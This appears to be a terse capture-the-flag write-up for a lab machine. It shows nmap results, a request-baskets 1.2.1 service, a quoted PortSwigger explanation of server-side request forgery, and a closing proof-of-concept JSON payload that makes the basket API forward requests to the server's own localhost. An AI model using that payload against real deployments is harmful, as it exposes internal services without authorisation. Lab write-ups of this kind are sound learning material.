


 nmap -sV -sC 10.10.11.224
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-11 00:18 EDT
Nmap scan report for 10.10.11.224
Host is up (0.73s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa8867d7133d083a8ace9dc4ddf3e1ed (RSA)
|   256 ec2eb105872a0c7db149876495dc8a21 (ECDSA)
|_  256 b30c47fba2f212ccce0b58820e504336 (ED25519)
80/tcp    filtered http
55555/tcp open     unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Tue, 11 Jul 2023 04:20:18 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Tue, 11 Jul 2023 04:19:34 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Tue, 11 Jul 2023 04:19:37 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port55555-TCP:V=7.93%I=7%D=7/11%Time=64ACD857%P=x86_64-pc-linux-gnu%r(G
SF:etRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/html;\
SF:x20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Tue,\x2011\x20Jul\x20
SF:2023\x2004:19:34\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=\"/w
SF:eb\">Found</a>\.\n\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Re
SF:quest\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x
SF:20close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,60,"HTTP/1\.0\x202
SF:00\x20OK\r\nAllow:\x20GET,\x20OPTIONS\r\nDate:\x20Tue,\x2011\x20Jul\x20
SF:2023\x2004:19:37\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest
SF:,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;
SF:\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request"
SF:)%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20tex
SF:t/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20
SF:Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nCon
SF:tent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\
SF:r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x20400\
SF:x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nC
SF:onnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSessionReq,67,"
SF:HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20c
SF:harset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(K
SF:erberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text
SF:/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20R
SF:equest")%r(FourOhFourRequest,EA,"HTTP/1\.0\x20400\x20Bad\x20Request\r\n
SF:Content-Type:\x20text/plain;\x20charset=utf-8\r\nX-Content-Type-Options
SF::\x20nosniff\r\nDate:\x20Tue,\x2011\x20Jul\x202023\x2004:20:18\x20GMT\r
SF:\nContent-Length:\x2075\r\n\r\ninvalid\x20basket\x20name;\x20the\x20nam
SF:e\x20does\x20not\x20match\x20pattern:\x20\^\[\\w\\d\\-_\\\.\]{1,250}\$\
SF:n")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:
SF:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20
SF:Bad\x20Request")%r(LDAPSearchReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request
SF:\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20clo
SF:se\r\n\r\n400\x20Bad\x20Request");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 204.05 seconds

`http://10.10.11.224:55555/lala`

It has a basket application which tells us about headers

curl -A "" http://10.10.11.224:55555/lala

does not have an xss injection

There is forwarding URL as well

see the version of request baskets

Powered by request-baskets | Version: 1.2.1 

request-baskets up to v1.2.1 was discovered to contain a Server-Side Request Forgery (SSRF) via the component /api/baskets/{name}. This vulnerability allows attackers to access network resources and sensitive information via a crafted API request.

 For example, consider a shopping application that lets the user view whether an item is in stock in a particular store. To provide the stock information, the application must query various back-end REST APIs, dependent on the product and store in question. The function is implemented by passing the URL to the relevant back-end API endpoint via a front-end HTTP request. So when a user views the stock status for an item, their browser makes a request like this:
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1

This causes the server to make a request to the specified URL, retrieve the stock status, and return this to the user.

In this situation, an attacker can modify the request to specify a URL local to the server itself. For example:
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://localhost/admin

Here, the server will fetch the contents of the /admin URL and return it to the user.

Now of course, the attacker could just visit the /admin URL directly. But the administrative functionality is ordinarily accessible only to suitable authenticated users. So an attacker who simply visits the URL directly won't see anything of interest. However, when the request to the /admin URL comes from the local machine itself, the normal access controls are bypassed. The application grants full access to the administrative functionality, because the request appears to originate from a trusted location. 

https://portswigger.net/web-security/ssrf

https://notes.sjtu.edu.cn/s/MUUhEymt7

POC: POST /api/baskets/{name} API with payload - {"forward_url": "http://127.0.0.1:80/test","proxy_response": false,"insecure_tls": false,"expand_path": true,"capacity": 250}

